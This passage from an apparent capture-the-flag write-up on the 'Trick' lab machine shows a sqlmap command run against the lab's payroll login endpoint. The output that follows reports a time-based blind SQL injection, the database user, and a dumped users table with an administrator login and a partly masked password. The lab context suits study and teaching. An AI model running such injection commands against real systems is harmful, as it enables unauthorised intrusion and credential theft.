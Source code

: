 And we're in!

Looking around the site is interesting enough but there's really not much to exploit directly on the page itself, but i want to try one more thing with the login page, sqlmap!

so initally i just ran
`sqlmap.py --method=POST --data="username=1&password=1" -u "http://preprod-payroll.trick.htb/ajax.php?action=login" -a`
which would show EVERYTHING, but unfortunately sqlmap only has the ability to do this via
```
[12:59:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:00:07] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```

>Which means that this injection attempt may take a long time (as the system will be using time to determine what the server response is) i don't know if it does it like a=1ms b=2ms etc

So initally we get back some banner notifications here
```
web application technology: Nginx 1.14.2, PHP
[14:20:15] [INFO] fetching current user
[14:20:15] [INFO] retrieved: remo@localhost
current user: 'remo@localhost'

```
another username, this one seems to be an actual local user?

Well it took a while, but i guess i really should've searched for the `users` table first thing, but anyway here it is! Unencrypted password too! tut! tut!
```
Table: users
[1 entry]
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | Su*****************ke | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+

```
